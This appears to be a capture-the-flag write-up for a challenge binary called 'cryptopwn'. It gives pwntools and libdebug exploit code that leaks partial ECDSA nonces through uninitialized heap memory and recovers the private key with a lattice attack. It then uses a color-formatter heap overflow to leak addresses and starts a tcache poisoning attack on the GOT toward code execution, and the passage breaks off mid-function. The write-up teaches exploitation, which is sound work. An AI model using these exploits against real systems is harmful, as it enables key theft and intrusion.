Good news: heap is deterministic and the order of the free list chunks and heap offsets is constant through multiple runs.

A perfect tool for debugging and dumping the order in which nonce leaks are present in the free list is [libdebug](https://libdebug.org/).

The idea is to set breakpoints in strategic points and dump the original nonces from memory and then verify if their last 4 bytes are leakable: check for their addresses getting returned later by user-inserted desk allocations.

Setting breakpoints on:
* `__gmpz_clear(&k);` in `sign`: keep track of heap chunks addresses of limbs arrays used to hold `k` nonces and save them in a list alongside their `4th limb` last `4 bytes` (which can be leaked).
* `new_desk = (undefined8 *)malloc(0x28);` in `add_listing`: find out if new desk allocation reused one of the saved former `k` nonces chunks by searching its address in the chunks list and then verify that the nonce hasn't been overwritten by comparing the `4 bytes` at offset `0x1c`.

Let's write down a libdebug script to dump when freed `k` nonces chunks are reused as desk listings structures:

```py
from libdebug import debugger
from libdebug.liblog import liblog
from pwn import u64
from subprocess import run

sla = lambda *x, **y: io.sendlineafter(*x, **y)
ru = lambda *x, **y: io.recvuntil(*x, **y)

d = debugger("../../build/cryptopwn")

io = d.run()

# hacky popen hook to fix libdebug halting on popen's posix_spawn
def hook_popen(t, bp):
    # rax contains length of command string returned by sprintf
    # char hex_hash[0x40] @ rbp-0x50
    # char* command @ rbp-0x80
    cmd_ptr = u64(t.memory[t.regs.rbp-0x80, 8])
    cmd_len = t.regs.rax
    cmd = t.memory[cmd_ptr, cmd_len]
    cmd_output = run(cmd, shell=True, capture_output=True).stdout
    hex_hash = cmd_output[:0x40] + b'\0'
    t.memory[t.regs.rbp-0x50] = hex_hash
    t.regs.rip += 0x4A65 - 0x49F1 # jump right after pclose()

d.breakpoint(0x49F1, file='binary', callback=hook_popen) # avoid calling popen in sha256


LIMBS_LEN = 0x20
LEAK_OFFSET = 0x1c
NUM_POPS = 130 # using this number because it pops all the nonce chunks
nonce_k_chunks = []
nonce_k_values = {}
reused_offsets = {}

def bp_k_nonce_clear(t, bp):
    k_addr = t.regs.rdi # __mpz_struct address
    k_mp_d = u64(t.memory[k_addr+0x8, 8]) # read _mp_d pointer field of k
    nonce_k_chunks.append(k_mp_d)
    nonce = t.memory[k_mp_d, LIMBS_LEN] # dump the entire nonce
    liblog.info('dumped nonce #{}: {}'.format(bp.hit_count, int.from_bytes(nonce)))
    nonce_k_values[k_mp_d] = nonce


def bp_new_desk_allocation(t, bp):
    new_desk_addr = t.regs.rax # just returned by malloc
    if new_desk_addr in nonce_k_chunks:
        chunk_content = t.memory[new_desk_addr, LIMBS_LEN] # read content of the new chunk
        prev_4bytes = nonce_k_values[new_desk_addr][LEAK_OFFSET:]
        curr_4bytes = chunk_content[LEAK_OFFSET:]
        liblog.info('found reused nonce chunk: {:x}'.format(new_desk_addr))
        # verify content hasn't been overwritten by other operations and is hence usable as leak
        if prev_4bytes == curr_4bytes:
            liblog.info('the freed nonce chunk {:x} is leakable!'.format(new_desk_addr))
            reused_offsets[new_desk_addr] = NUM_POPS - bp.hit_count


d.breakpoint('sign+527', callback=bp_k_nonce_clear) # __gmpz_clear(&k);
d.breakpoint('add_listing+b2', callback=bp_new_desk_allocation) # new_desk = (undefined8 *)malloc(0x28);

d.cont()

def auth(pub_key):
    sla(b'> ', b'1')

    sla(b'Give me your ECDSA Public Key to be used: ', '{}, {}'.format(*pub_key[:2]).encode())


# add a listing triggering the unitialized malloc chunk allocation (for later leak)
def add_dummy_leak_listing(name = b'A'*6, desc = b'A'*8):
    sla(b'> ', b'1') # add desk listing

    sla(b'Insert the listing name (displayed in the listings page): ', name)
    sla(b'Insert the listing description: ', desc)
    # make scanf fail by sending '-' as price
    sla(b'Insert your target listing price: ', b'-')
    sla(b"Specify your desk's measures (Depth x Width x Height) in centimeters: ", b'1x1x1')


# to avoid wasting time generating a valid secp256r1 ECDSA key, just use point G as pub key, as it passes the checks (is in the curve)
G = 0x6b17d1f2e12c4247f8bce6e563a440f277037d812deb33a0f4a13945d898c296, 0x4fe342e2fe1a7f9b8ee7eb4a7c0f9e162bce33576b315ececbb6406837bf51f5
auth(G)

for _ in range(NUM_POPS):
    add_dummy_leak_listing()

# build associative list: gold user's desk listing signature index (index) -> pops count to reach its nonce leak (value)
unleakable_count = 0
leaks_offsets = []
for chunk_addr in reversed(nonce_k_chunks): # reversed order as these are dumped from 40th to 1st
    if chunk_addr in reused_offsets:
        leaks_offsets.append(reused_offsets[chunk_addr])
    else:
        unleakable_count += 1
        leaks_offsets.append(None)

print(f'{unleakable_count = }')
print(f'{leaks_offsets = }')
```

Here is the output of the above script:



Here the useful computed offsets + unleakable nonces count which will serve to extract the actual leaks:

```py
unleakable_count = 18
leaks_offsets = [None, None, None, None, None, None, None, None, None, None, None, None, None, None, None, None, None, None, 107, 112, 101, 98, 95, 84, 89, 78, 67, 72, 61, 58, 55, 44, 49, 38, 27, 32, 21, 18, 15, 5]
```

### Extracting partial nonce leaks

Now getting the actual leaks should be trivial, just requesting the list of desks listings and parsing their prices skipping the pre-existent 40 ones should be enough.\
Before doing that anyway it's convenient to dump the signatures of the 40 already existing desks insertions and the gold user's public key (both needed to recover their private key later) like this:

```py
EXISTING_LISTINGS_COUNT = 40

def get_listing_public_key(index):
    sla(b'> ', b'5') # check sale authenticity

    sla(b'Insert listing id: ', b'%d' % index)
    ru(b'Poster public key: ')
    return E(*list(map(int, rl(keepends=False).decode().split(", "))))


def dump_existing_crypto():
    signatures = []

    for i in range(EXISTING_LISTINGS_COUNT): # only dump pre-existing listings
        sla(b'> ', b'5') # check sale authenticity

        sla(b'Insert listing id: ', b'%d' % (i+1)) # listings are 1-indexed
        ru(b'Signature: ')
        r = int(ru(b', ', drop=True))
        s = int(rl(keepends=False))
        signatures.append((r, s))

    return signatures

# ... first authenticate here ...

gold_user_Q = get_listing_public_key(1)

signatures = dump_existing_crypto()
```

And here is code to dump all the leaks through the price field of the `NUM_POPS` newly inserted desks listings and also calculate their hashes:

```py
NUM_POPS = 130

# prices can contain leaks from uninitialized malloc chunks
def get_all_listings_prices():
    sla(b'> ', b'4') # list desks

    leaks = []
    while True:
        if not ru(b'Listing #', timeout=2):
            break
        ru(b'Price: ')
        price_f = float(rl(keepends=False))
        leak_bytes = struct.pack('>f', price_f)
        leaks.append((price_f, leak_bytes))
    return leaks


def get_all_listings_hashes():
    sla(b'> ', b'4') # list desks

    hashes = []
    while True:
        if not ru(b'Listing #', timeout=2):
            break
        ru(b'Name: ')
        name =  rl(keepends=False)
        ru(b'Description: ')
        desc =  rl(keepends=False)
        ru(b'Depth: ')
        depth = struct.pack('<f', float(ru(b'cm', drop=True)))
        ru(b'Width: ')
        width = struct.pack('<f', float(ru(b'cm', drop=True)))
        ru(b'Height: ')
        height = struct.pack('<f', float(ru(b'cm', drop=True)))

        hashable_desk = flat(
            name.ljust(32, b'\x00'),
            desc.ljust(256, b'\x00'),
            depth, width, height
        )
        sha_hash = bytes_to_long(sha256(hashable_desk).digest())
        hashes.append(sha_hash)
    return hashes


for _ in range(NUM_POPS):
    add_dummy_leak_listing()

listings = get_all_listings_prices()
listings_hashes = get_all_listings_hashes()

nonce_leaks = [listings[LEAKS_OFFSETS[idx]] for idx in range(UNLEAKABLE_COUNT, len(signatures))]
hashes = listings_hashes[len(listings)-EXISTING_LISTINGS_COUNT:-UNLEAKABLE_COUNT][::-1]

assert len(set(hashes)) == len(hashes)
assert len(nonce_leaks) == len(hashes)

# collect signatures data
r, s, z, leaks = [], [], [], []
for i, ((price_f, leak_bytes), sha_hash) in enumerate(zip(nonce_leaks, hashes)):
    # only consider leak if price_f isn't represented as 0 and there's no decimal part in the float, as it could have been approximated by the printf's %.2f 2 decimal digits limit
    if abs(price_f) > 0 and abs(modf(price_f)[0]) < 1e-2:
        r.append(signatures[UNLEAKABLE_COUNT+i][0])
        s.append(signatures[UNLEAKABLE_COUNT+i][1])
        z.append(sha_hash)
        leaks.append(u32(leak_bytes, endian="big"))

log.info(f'obtained {len(leaks)} 32 MSB bits partial nonce leaks with relative signatures!')

assert len(leaks) >= 9
```

The above code uses the `LEAKS_OFFSETS` list and `UNLEAKABLE_COUNT` found out by the script based on libdebug to associate signature hashes to their corresponding leak of the nonce used in the signing process.\
Additional filtering of the leaks has been done to ensure validity of the leak gathered as float through `printf("Price: %.2f\n",*(float *)(desk + 0x1c));` (from `show_listing`).


### Crypto part

Once you have the partial leaks you can formulate key recovery problem as an instance of the Hidden Number Problem.
The signatures use `256bit` nonces and every leak is the `32` most significative bits of one, so having at least `9 leaks` is needed for this approach to work.

Assuming you have `m` leaks, the data that you now have is the following:

The `signatures`
$$ (r_1, s_1), (r_2, s_2), \dots, (r_m, s_m) $$

The `hashes` that were signed
$$ z_1, z_2, \dots, z_m $$

The partial `leaks` of the nonces
$$ a_1, a_2, \dots, a_m $$

Casting the problem as a system of equations, the signatures satisfy

$$ s_1 \equiv k_1^{-1} (z_1 + d r_1) \mod n $$
$$ s_2 \equiv k_2^{-1} (z_2 + d r_2) \mod n $$
$$ \vdots $$
$$ s_m \equiv k_m^{-1} (z_m + d r_m) \mod n $$

where $k_i$ and $d$ are unknown; but rearranging terms you can eliminate $d$ and have

$$ k_1 - s_1^{-1} s_m r_1 r_m^{-1} k_m + s_1^{-1} r_1 z_m r_m^{-1} - s_1^{-1} z_1 \equiv 0 \mod n $$
$$ k_2 - s_2^{-1} s_m r_2 r_m^{-1} k_m + s_2^{-1} r_2 z_m r_m^{-1} - s_2^{-1} z_2 \equiv 0 \mod n $$
$$ \vdots $$
$$ k_{m-1} - s_{m-1}^{-1} s_m r_{m-1} r_m^{-1} k_m + s_{m-1}^{-1} r_{m-1} z_m r_m^{-1} - s_{m-1}^{-1} z_{m-1} \equiv 0 \mod n $$

then substituting $t_i = - s_i^{-1} s_m r_i r_m^{-1}$ and $u_i = s_i^{-1} r_i z_m r_m^{-1} - s_i^{-1} z_i$ you have

$$ k_1 - t_1 k_m + u_1 \equiv 0 \mod n $$
$$ k_2 - t_2 k_m + u_2 \equiv 0 \mod n $$
$$ \vdots $$
$$ k_{m-1} - t_{m-1} k_m + u_{m-1} \equiv 0 \mod n $$

where you still don't know the values of $k_i$, but you know that $k_i = a_i + b_i$ where $a_i$ is known and $b_i$ is small (specifically $|b_i| < K$ where $K = 2^{224}$ since $a_i$ is $32$ bits long), so you have

$$ (a_i + b_i) + t_i (a_m + b_m) + u_i \equiv 0 \mod n $$
$$ b_i + t_i b_m + u_i + a_i + t_i a_m \equiv 0 \mod n $$

then substituting $u_i' = u_i + a_i + t_i a_m$ you can construct the lattice as follows

$$ L = \begin{bmatrix}
n & & & & \\
& n & & & \\
& & \ddots & & \\
& & & n & \\
t_1 & t_2 & \cdots & t_m & 1 \\
u_1' & u_2' & \cdots & u_m' & 0 & K
\end{bmatrix} $$

and after reducing it using the BKZ algorithm you should find a vector of the form

$$ v = \begin{pmatrix} b_1 \ b_2 \ \cdots \ b_m \ K \end{pmatrix} $$

that lets you calculate $k_i$ as

$$ k_i = a_i + b_i $$

which then lets you calculate $d$ using the following equation

$$ d = r_i^{-1} (k_i s_i - z_i) \mod n $$

More information on this approach can be found [here](https://eprint.iacr.org/2020/1506.pdf)

### Second PWN part

Once the private key is recovered it is possible to logout and re-login as the gold user. In order to do that, it will be necessary to sign a random buffer of bytes using the recovered private key.

After logging in as the gold user, some new perks are unlocked, as the program suggest after logging in:

```
Reminder: as a FDM GOLD subscriber, you have access to some extra features:
 - Login authentication for improved security
 - Customizable colors in listing descriptions (BETA)
 - Listing preview (BETA)
 - Remove listings
```

_Those new features will be useful to gain full exeuction flow takeover._

A new BETA menu is introduced in the listing insertion phase.



And here are some functions to interact with the new menu with pwntools:

```py
def add_listing_beta():
    sla(b'> ', b'1') # add desk listing

    sla(b'Do you want to try out our new BETA features? (y/n): ', b'y')


def add_listing_beta_insert(name, desc):
    sla(b'> ', b'1') # insert data

    sla(b'Insert the listing name (displayed in the listings page): ', name)
    sla(b'Insert the color-formatted listing description: ', desc)
    sla(b'Insert your target listing price: ', b'1')
    sla(b"Specify your desk's measures (Depth x Width x Height) in centimeters: ", b'1x1x1') # send measures


def add_listing_beta_preview():
    sla(b'> ', b'2') # preview ad


def add_listing_beta_confirm():
    sla(b'> ', b'3') # confirm data
```

### Discovering a bug

To start off: `Customizable colors in listing description (BETA)` introduces a cool new feature: color formatters.\
Here is the demonstration of how colored descriptions and Ad preview work in the new menu:



Here is the BETA menu insertion menu decompiled code:

```c
void add_listing_beta(void) {
  int opt;
  undefined8 *new_desk;
  void *new_desk_info;
  size_t description_fmt_len;
  long in_FS_OFFSET;
  int local_124;
  char description_fmt [264];
  long canary;
  bool done;
  bool is_inserted;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  new_desk = (undefined8 *)malloc(0x28);
  if (new_desk == (undefined8 *)0x0) {
    err("malloc failed");
  }
  new_desk_info = malloc(0x148);
  new_desk[1] = new_desk_info;
  if (new_desk[1] == 0) {
    err("malloc failed");
  }
  *(undefined1 **)(new_desk[1] + 0x140) = user_Q;
  *(undefined *)(new_desk + 4) = 0;
  done = false;
  is_inserted = false;
LAB_00102def:
  while( true ) {
    if (done) {
      if (canary == *(long *)(in_FS_OFFSET + 0x28)) {
        return;
      }
                    /* WARNING: Subroutine does not return */
      __stack_chk_fail();
    }
    puts(
        "\nFDM GOLD (BETA) Ad insertion menu\n\n  1) Insert data\n  2) Preview Ad\n  3) Confirm inse rtion\n  4) Discard insertion\n"
        );
    opt = pick_opt(1);
    if (opt != 4) break;
    free((void *)new_desk[1]);
    free(new_desk);
    done = true;
  }
  if (opt < 5) {
    if (opt == 3) {
      if (is_inserted) {
        *new_desk = listings;
        listings_count = listings_count + 1;
        listings = new_desk;
        puts("Listing added successfully");
        done = true;
      }
      else {
        puts("Insert desk data first!");
      }
      goto LAB_00102def;
    }
    if (3 < opt) goto LAB_00102ddd;
    if (opt == 1) {
      puts(
          "You will now be asked to describe the desk you are trying to sell! Be careful specifing A LL the fields correctly!"
          );
      printf("Insert the listing name (displayed in the listings page): ");
      get_str(new_desk[1],0x20);
      puts("----------------------------------------------");
      puts(
          "BETA Feature hint: you can create custom colored listing description messages in the foll owing way:"
          );
      puts(
          "By inserting \"This is an $REDawesome $BLUEdesk$RESET!\", the description will show up in  the for-sale list in this way:\n\n\"This is an \x1b[31mawesome \x1b[34mdesk\x1b[0m!\"\n"
          );
      puts("The available color formatters are:");
      for (local_124 = 0; local_124 < 7; local_124 = local_124 + 1) {
        printf(" - %s\n",colors_keys[local_124]);
      }
      puts("----------------------------------------------");
      printf("Insert the color-formatted listing description: ");
      get_str(description_fmt,0x100);
      description_fmt_len = strnlen(description_fmt,0x100);
      format_colors(new_desk[1] + 0x20,description_fmt,description_fmt_len);
      printf("Insert your target listing price: ");
      __isoc99_scanf("%f",(long)new_desk + 0x1c);
      printf("Specify your desk\'s measures (Depth x Width x Height) in centimeters: ");
      opt = __isoc99_scanf("%f x %f x %f",new_desk + 2,(long)new_desk + 0x14,new_desk + 3);
      if (opt == 3) {
        is_inserted = true;
      }
      goto LAB_00102def;
    }
    if (opt == 2) {
      if (is_inserted) {
        puts("Here\'s the preview of your Ad:");
        show_listing(new_desk);
      }
      else {
        puts("Insert desk data first!");
      }
      goto LAB_00102def;
    }
  }
LAB_00102ddd:
  puts("Invalid menu option picked! Try again.");
  goto LAB_00102def;
}
```

In the desk data insertion phase a description formatter string (`0x100` sized local char array) is loaded from user input, the `format_colors` function gets called using that string as formatter, passing a field (description field, `0x100` sized char array aswell) of the desk's info structure (heap allocated with `new_desk_info = malloc(0x148);`) as output char array.

Let's break down the logic of the color formatter:

```c
char* colors_keys[] = {
    "$RED",
    "$GREEN",
    "$YELLOW",
    "$BLUE",
    "$MAGENTA",
    "$CYAN",
    "$RESET"
};

char* colors_values[] = {
    "\x1b[31m",
    "\x1b[32m",
    "\x1b[33m",
    "\x1b[34m",
    "\x1b[35m",
    "\x1b[36m",
    "\x1b[0m"
};

void format_colors(char *out_str,long format_str,ulong format_len) {
  int iVar1;
  size_t formatter_len;
  size_t formatted_len;
  long in_FS_OFFSET;
  char *out_str_ptr;
  int j;
  ulong i;
  long canary;
  bool is_formatter;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  out_str_ptr = out_str;
  for (i = 0; i < format_len; i = i + 1) {
    is_formatter = false;
    j = 0;
    while ((j < 7 && (!is_formatter))) {
      formatter_len = strlen(colors_keys[j]);
      iVar1 = strncmp((char *)(format_str + i),colors_keys[j],formatter_len);
      if (iVar1 == 0) {
        formatted_len = strlen(colors_values[j]);
        strncpy(out_str_ptr,colors_values[j],formatted_len);
        out_str_ptr = out_str_ptr + formatted_len;
        i = (i + formatter_len) - 1;
        is_formatter = true;
      }
      j = j + 1;
    }
    if (!is_formatter) {
      *out_str_ptr = *(char *)(format_str + i);
      out_str_ptr = out_str_ptr + 1;
    }
  }
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
}
```

Notice that this is just a basic substring matching and substitution algorithm but the lengths of the original and replaced substrings don't always match!
For example, the `$RED` formatter (4 characters long) is going to get replaced with `\x1b[31m` (5 characters long). This means that the length of the `out_str` string could differ from `format_str` length (but no check is made on the length of the output string).
Also, no null-terminator is added at the end of the output string.

The format string `$RED$RED$REDTEST` (16 bytes long) gets expanded into `\x1b[31m\x1b[31m\x1b[31mTEST` (19 bytes long).
Using this function may result in an overflow of the output buffer. The output buffer specified by `add_listing_beta`'s call is located in the heap, so we are talking about a heap overflow.

It should be easy to reconstruct the desk's info struct (where the overflow is happening) by looking at `show_listing` and `show_crypto_data` functions:

```c
void show_listing(long desk) {
  long in_FS_OFFSET;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  printf("Name: %s\n",*(undefined8 *)(desk + 8));
  printf("Price: %f\n",(double)*(float *)(desk + 0x1c));
  printf("Description: %s\n",*(long *)(desk + 8) + 0x20);
  printf("\x1b[0m");
  puts("Desk details:");
  printf(" - Depth: %.2fcm\n",(double)*(float *)(desk + 0x10));
  printf(" - Width: %.2fcm\n",(double)*(float *)(desk + 0x14));
  printf(" - Height: %.2fcm\n",(double)*(float *)(desk + 0x18));
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
}

void show_crypto_data(void) {
  uint target_idx;
  long in_FS_OFFSET;
  uint i;
  undefined8 *desk;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  printf("Insert listing id: ");
  i = 0;
  target_idx = pick_opt(0);
  if (0 < (int)target_idx) {
    for (desk = listings; desk != (undefined8 *)0x0; desk = (undefined8 *)*desk) {
      i = i + 1;
      if (i == target_idx) {
        if (*(char *)(desk + 4) == '\x01') {
          printf("Sale authenticity data for listing #%d:\n",(ulong)i);
          printf("Poster public key: ");
          __gmpz_out_str(stdout,10,(__mpz_struct *)(*(long *)(desk[1] + 0x140) + 8));
          printf(", ");
          __gmpz_out_str(stdout,10,(__mpz_struct *)(*(long *)(desk[1] + 0x140) + 0x18));
          puts("");
          printf("Signature: ");
          __gmpz_out_str(stdout,10,(__mpz_struct *)(desk[1] + 0x120));
          printf(", ");
          __gmpz_out_str(stdout,10,(__mpz_struct *)(desk[1] + 0x130));
          puts("");
        }
        else {
          puts("That listing isn\'t signed!");
        }
        goto LAB_001036e8;
      }
    }
  }
  puts("Invalid listing id");
LAB_001036e8:
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
}
```

And here is the reconstruction of the desk info structure:

```c
struct desk_infoT {
	char name[0x20];
	char description[0x100];
	// cryptographic metadata:
	__mpz_struct r;
	__mpz_struct s;
	Point* poster_pubkey;
}; // total struct size = 0x20 + 0x100 + 0x10 + 0x10 + 0x8 = 0x148
```

Let's calculate how much overflow reach does `format_colors` allow for with a `256` characters long format string:

```py
>>> 256 // len('$RED')
64
>>> 64 * len('\x1b[31m')
320
>>> 320 - 256
64
```

It's possible to reach up to 64 bytes past the end of `description` buffer through this overflow, fully overwriting `r`, `s` and `poster_pubkey` fields and even next chunk's size metadata!

Anyway let's not forget about the Ad preview feature because combining it with the lack of null-termination of `format_colors` output string provides the ability to leak the contents of the struct's `r`, `s` and `poster_pubkey` fields.

### Getting some leaks

Here is a memory view of the area interested by the overflow before calling `format_colors`:



You can see that another chunk starts at the address `0x56265eee4dc0` (it is the top chunk).

Also, the `poster_pubkey` field at `0x56265eee4db0` is a pointer to a symbol located in the executable's virtual memory, thus allows leaking PIE base address, like this:

```py
# get PIE leak
add_listing_beta()
add_listing_beta_insert(b'B'*6, flat(
    b'$RED'*56, # use description buffer overflow of format_colors function to reach the poster_Q field (pointer to binary's virtual memory address space)
    b'B'*8
))
add_listing_beta_preview()
ru(b'B'*8)
user_q_leak = rl(keepends=False)
user_q_leak = u64(user_q_leak + bytes(8-len(user_q_leak)))
exe.address = user_q_leak - exe.sym['user_Q']
log.info(f'{exe.address = :x}')

add_listing_beta_confirm()
```

After that, to get a heap leak, it's enough to:
* Populate `0x150` sized TCache (used for the freed desk info structs) with 3 freed chunks like this:
	```
	┌──────────┐    ┌─►┌──────────┐    ┌─►┌──────────┐   
	│  BBBBBB  │    │  │  CCCCCC  │    │  │  DDDDDD  │   
	│ +0x14ab0 ├────┘  │ +0x14c00 ├────┘  │ +0x14d50 │   
	└──────────┘       └──────────┘       └──────────┘   
	```
	

* Create new listing (will pop TCache head for the description, hence _BBBBBB_ chunk) and overflow its description into _CCCCCC_ reaching its `fd` (pointing to _DDDDDD_)

	

* Preview the Ad and leak the `fd` pointer of _CCCCCC_ freed chunk (it's safe linked).

* Decrypt the safe linked `fd` pointer, and calculate heap base.

Code to do that is the following:

```py
# BBBBBB has been created before, to leak PIE base

add_listing_beta()
add_listing_beta_insert(b'C'*6, b'C'*8)
add_listing_beta_confirm()

add_listing_beta()
add_listing_beta_insert(b'D'*6, b'D'*8)
add_listing_beta_confirm()

# free the last 3 ads (will end up in tcache)
remove_listing(1)
remove_listing(1)
remove_listing(1)

# this will give back the last free'd chunk (BBBBBB)
add_listing_beta()
add_listing_beta_insert(b'E'*6, flat(
    b'$RED'*59, # '$RED'*59 gets expanded into '\x1b[31m'*59 allowing heap overflow
    b'X', # padding
    # end of struct:
    b'E'*8, # next (victim) chunk's size
))

add_listing_beta_preview()
ru(b'E'*8)
mangled_heap_leak = rl(keepends=False) # this is victim chunk's safe linked fwd pointer from tcache
mangled_heap_leak = u64(mangled_heap_leak + bytes(8-len(mangled_heap_leak)))
heap_leak = decrypt_ptr(mangled_heap_leak)
log.info(f'{heap_leak = :x}')

HEAP_LEAK_OFFSET = 0x14d50
```

_The heap offsets used are relative to one run and are likely to change running the binary again because of differences introduced by the randomness of the used GMP variable size integers. This is not a problem because heap leak is only used paired with a offset from it and not from heap base._

More info about safe linking can be found [here](https://ir0nstone.gitbook.io/notes/binexp/heap/safe-linking), and here is the function used to decrypt the mangled leaked fd pointer:

```py
def decrypt_ptr(val):
    mask = 0xfff << (64-12)
    while mask:
        v = val & mask
        val ^= v >> 12
        mask >>= 12
    return val
```

Now both **PIE base** and **heap leak** are known.

### Obtaining RCE

The target now is obtaining remote code execution, hence, redirecting program's execution flow.\
Glibc version is `2.36` (default version for Debian 12 Bookworm).\
Here are protections put in place by the binary (checked by `checksec`):



`Partial-RELRO` protection doesn't make `Global Offset Table` read-only (unlike Full RELRO), so overwriting a GOT entry is definitely an option.

Easiest path to a write-what-where primitive is performing a [TCache poisoning attack](https://github.com/shellphish/how2heap/blob/master/glibc_2.36/tcache_poisoning.c): basically changing the `fd` (pointer to next chunk of the free bin linked list) of a freed chunk that lays in the TCache.

Will overwrite _CCCCCC_'s `fd` pointer (pointing to _DDDDDD_) with an addess from the GOT table (must be **0x10 aligned**). It's necessary to safe-link that pointer.

A perfect fit GOT target entry to overwrite is `strtol`, as it gets called with **user-controlled first string parameter** in `pick_opt` function:

```c
void pick_opt(bool param_1) {
  long in_FS_OFFSET;
